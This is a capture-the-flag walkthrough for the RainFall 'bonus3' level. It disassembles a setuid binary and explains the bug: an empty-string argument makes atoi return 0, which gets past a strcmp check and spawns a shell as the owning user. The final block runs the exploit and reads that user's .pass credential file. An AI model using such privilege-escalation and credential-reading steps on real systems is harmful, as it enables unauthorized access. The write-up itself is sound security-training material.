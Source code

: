 # Bonus3

## Walkthrough

We list the files in the current home directory.

```bash
bonus3@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 bonus3 bonus3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus3 bonus3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus3 bonus3 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus3 bonus3   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus3 bonus3  675 Apr  3  2012 .profile
-rwsr-s---+ 1 end    users  5595 Mar  6  2016 bonus3
bonus3@RainFall:~$ file bonus3 
bonus3: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x530d693450de037e44d1186904401c8f8064874b, not stripped
```

The file is owned by **end** and has the setuid bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  strcmp
0x080483b0  strcmp@plt
0x080483c0  fclose
0x080483c0  fclose@plt
0x080483d0  fread
0x080483d0  fread@plt
0x080483e0  puts
0x080483e0  puts@plt
0x080483f0  __gmon_start__
0x080483f0  __gmon_start__@plt
0x08048400  __libc_start_main
0x08048400  __libc_start_main@plt
0x08048410  fopen
0x08048410  fopen@plt
0x08048420  execl
0x08048420  execl@plt
0x08048430  atoi
0x08048430  atoi@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  main
0x08048620  __libc_csu_init
0x08048690  __libc_csu_fini
0x08048692  __i686.get_pc_thunk.bx
0x080486a0  __do_global_ctors_aux
0x080486cc  _fini
```

There is only 1 user-defined function: `main()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484f4 <+0>:     push   ebp
   0x080484f5 <+1>:     mov    ebp,esp
   0x080484f7 <+3>:     push   edi
   0x080484f8 <+4>:     push   ebx
   0x080484f9 <+5>:     and    esp,0xfffffff0
   0x080484fc <+8>:     sub    esp,0xa0
   0x08048502 <+14>:    mov    edx,0x80486f0
   0x08048507 <+19>:    mov    eax,0x80486f2
   0x0804850c <+24>:    mov    DWORD PTR [esp+0x4],edx
   0x08048510 <+28>:    mov    DWORD PTR [esp],eax
   0x08048513 <+31>:    call   0x8048410 <fopen@plt>
   0x08048518 <+36>:    mov    DWORD PTR [esp+0x9c],eax
   0x0804851f <+43>:    lea    ebx,[esp+0x18]
   0x08048523 <+47>:    mov    eax,0x0
   0x08048528 <+52>:    mov    edx,0x21
   0x0804852d <+57>:    mov    edi,ebx
   0x0804852f <+59>:    mov    ecx,edx
   0x08048531 <+61>:    rep stos DWORD PTR es:[edi],eax
   0x08048533 <+63>:    cmp    DWORD PTR [esp+0x9c],0x0
   0x0804853b <+71>:    je     0x8048543 <main+79>
   0x0804853d <+73>:    cmp    DWORD PTR [ebp+0x8],0x2
   0x08048541 <+77>:    je     0x804854d <main+89>
   0x08048543 <+79>:    mov    eax,0xffffffff
   0x08048548 <+84>:    jmp    0x8048615 <main+289>
   0x0804854d <+89>:    lea    eax,[esp+0x18]
   0x08048551 <+93>:    mov    edx,DWORD PTR [esp+0x9c]
   0x08048558 <+100>:   mov    DWORD PTR [esp+0xc],edx
   0x0804855c <+104>:   mov    DWORD PTR [esp+0x8],0x42
   0x08048564 <+112>:   mov    DWORD PTR [esp+0x4],0x1
   0x0804856c <+120>:   mov    DWORD PTR [esp],eax
   0x0804856f <+123>:   call   0x80483d0 <fread@plt>
   0x08048574 <+128>:   mov    BYTE PTR [esp+0x59],0x0
   0x08048579 <+133>:   mov    eax,DWORD PTR [ebp+0xc]
   0x0804857c <+136>:   add    eax,0x4
   0x0804857f <+139>:   mov    eax,DWORD PTR [eax]
   0x08048581 <+141>:   mov    DWORD PTR [esp],eax
   0x08048584 <+144>:   call   0x8048430 <atoi@plt>
   0x08048589 <+149>:   mov    BYTE PTR [esp+eax*1+0x18],0x0
   0x0804858e <+154>:   lea    eax,[esp+0x18]
   0x08048592 <+158>:   lea    edx,[eax+0x42]
   0x08048595 <+161>:   mov    eax,DWORD PTR [esp+0x9c]
   0x0804859c <+168>:   mov    DWORD PTR [esp+0xc],eax
   0x080485a0 <+172>:   mov    DWORD PTR [esp+0x8],0x41
   0x080485a8 <+180>:   mov    DWORD PTR [esp+0x4],0x1
   0x080485b0 <+188>:   mov    DWORD PTR [esp],edx
   0x080485b3 <+191>:   call   0x80483d0 <fread@plt>
   0x080485b8 <+196>:   mov    eax,DWORD PTR [esp+0x9c]
   0x080485bf <+203>:   mov    DWORD PTR [esp],eax
   0x080485c2 <+206>:   call   0x80483c0 <fclose@plt>
   0x080485c7 <+211>:   mov    eax,DWORD PTR [ebp+0xc]
   0x080485ca <+214>:   add    eax,0x4
   0x080485cd <+217>:   mov    eax,DWORD PTR [eax]
   0x080485cf <+219>:   mov    DWORD PTR [esp+0x4],eax
   0x080485d3 <+223>:   lea    eax,[esp+0x18]
   0x080485d7 <+227>:   mov    DWORD PTR [esp],eax
   0x080485da <+230>:   call   0x80483b0 <strcmp@plt>
   0x080485df <+235>:   test   eax,eax
   0x080485e1 <+237>:   jne    0x8048601 <main+269>
   0x080485e3 <+239>:   mov    DWORD PTR [esp+0x8],0x0
   0x080485eb <+247>:   mov    DWORD PTR [esp+0x4],0x8048707
   0x080485f3 <+255>:   mov    DWORD PTR [esp],0x804870a
   0x080485fa <+262>:   call   0x8048420 <execl@plt>
   0x080485ff <+267>:   jmp    0x8048610 <main+284>
   0x08048601 <+269>:   lea    eax,[esp+0x18]
   0x08048605 <+273>:   add    eax,0x42
   0x08048608 <+276>:   mov    DWORD PTR [esp],eax
   0x0804860b <+279>:   call   0x80483e0 <puts@plt>
   0x08048610 <+284>:   mov    eax,0x0
   0x08048615 <+289>:   lea    esp,[ebp-0x8]
   0x08048618 <+292>:   pop    ebx
   0x08048619 <+293>:   pop    edi
   0x0804861a <+294>:   pop    ebp
   0x0804861b <+295>:   ret
End of assembler dump.
```

The `main()` function:
- calls `fopen()` to open the file `/home/user/end/.pass`
- iterates 33 times from `[esp + 0x18]`, 4 bytes by 4 bytes, to set the bytes to 0
- quits the program if `argc` is not equal to 2
- calls `fread()` to store the content of the previously opened file into `[esp + 0x18]` up to 66 bytes
- sets the `[esp + 0x59]` byte to 0 (the 66th byte previously stored)
- calls `atoi()` to convert `argv[1]` into an `int`, and uses the converted value as an index to set a byte to 0 on the stack
- calls `fread()` to store the remaining content of the opened file into `[esp + 0x18 + 0x42]` up to 65 bytes
- calls `fclose()` to close the file pointer
- calls `strcmp()` to compare `argv[1]` with the stored string in `[esp + 0x18]` and calls `execl()` to execute `/bin/sh` if the return value is 0
- calls `puts()`, if the previous comparison does not return 0, to write the string stored in `[esp + 0x18 + 0x42]`

We draw a diagram of the stack.

![Diagram of the stack](./resources/bonus3_diagram1.png)

From our analysis of the ASM, we figure out that we must succeed in executing the `execl()` in order to complete this level.  
Using the `puts()` function is useless because it reads from the second buffer, which is not gonna contain the start of the password.

The only way to pass the `strmcp()` condition is to compare it with a `\0` character since the function is comparing from `[esp + 0x18]` and `argv[1]` is being used as an index to store 0 somewhere in the stack, from this buffer. If we pass 0 as `argv[1]`, then `[esp + 0x18]` is gonna be equal to 0, but not the value of `argv[1]` because 0 in ASCII is not equal to 0, which means we still won't pass the condition.

We seek some information about `atoi()` on the web and one sentence catches our attention:
> If the first sequence of non-whitespace characters in str is not a valid integral number, or if no such sequence exists because either str is empty or it contains only whitespace characters, no conversion is performed and zero is returned.

If we pass `""` as `argv[1]`, then `atoi()` will convert it to 0, and the empty string will only contain a `\0` character, which is gonna be equal to the 0 byte when comparing strings.

```bash
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

## Resources

- [null in atoi converts the value to 0](https://stackoverflow.com/questions/24862360/null-in-atoi-converts-the-value-to-0)
